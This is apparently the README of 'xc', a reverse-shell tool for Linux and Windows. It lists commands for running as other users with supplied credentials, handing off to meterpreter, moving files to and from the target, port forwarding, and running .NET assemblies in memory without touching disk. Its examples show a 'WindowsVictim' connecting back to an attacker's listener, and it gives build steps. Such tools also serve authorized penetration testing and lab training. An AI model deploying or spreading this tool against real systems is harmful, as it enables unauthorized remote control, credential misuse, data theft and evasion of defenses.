 # xc

Netcat like reverse shell for Linux & Windows. This is still experimental - pull requests are welcome :)

## Features

### Windows

``` 
 !runas <username> <password> <domain>
   - restart xc with the specified user
 !runasps <username> <password> <domain>
   - restart xc with the specified user using powershell
 !met <port>
   - connects to a x64/meterpreter/reverse_tcp listener
 !upload <src> <dst>
   - uploads a file to the target
 !download <src> <dst>
   - downloads a file from the target
 !lfwd <localport> <remoteaddr> <remoteport>
   - local portforwarding (like ssh -L)
 !rfwd <remoteport> <localaddr> <localport>
   - remote portforwarding (like ssh -R)
 !vulns
   - checks for common vulnerabilities
 !plugins
   - lists available plugins
 !plugin <plugin>
   - execute a plugin
 !rc <port>
   - connects to a local bind shell and restarts this client over it
 !spawn <port>
   - spawns another client on the specified port
 !shell
 !powershell
 !net <sample.exe> <arg1> <arg2> ...   
   - Runs a .NET assembly from the server on the client without touching disk
 !exit
``` 

### Linux

```
 !runas <username> <password> <domain>
   - restart xc with the specified user
 !met <port>
   - connects to a x64/meterpreter/reverse_tcp listener
 !upload <src> <dst>
   - uploads a file to the target
 !download <src> <dst>
   - downloads a file from the target
 !lfwd <localport> <remoteaddr> <remoteport>
   - local portforwarding (like ssh -L)
 !rfwd <remoteport> <localaddr> <localport>
   - remote portforwarding (like ssh -R)
 !plugins
   - lists available plugins
 !plugin <plugin>
   - execute a plugin
 !rc <port>
   - connects to a local bind shell and restarts this client over it
 !spawn <port>
   - spawns another client on the specified port
 !shell
 !ssh <port>
 !exit
``` 

## Examples

- Linux Attacker:	  `rlwrap xc -l -p 1337`			(Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	  (Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)

## Setup

``` 
go get golang.org/x/sys/windows
go get golang.org/x/text/encoding/unicode
go get github.com/hashicorp/yamux
go get github.com/ropnop/go-clr
``` 

Linux:
```
make
```


## Known Issues

- You can not Ctrl+C out of !powershell (only !shell)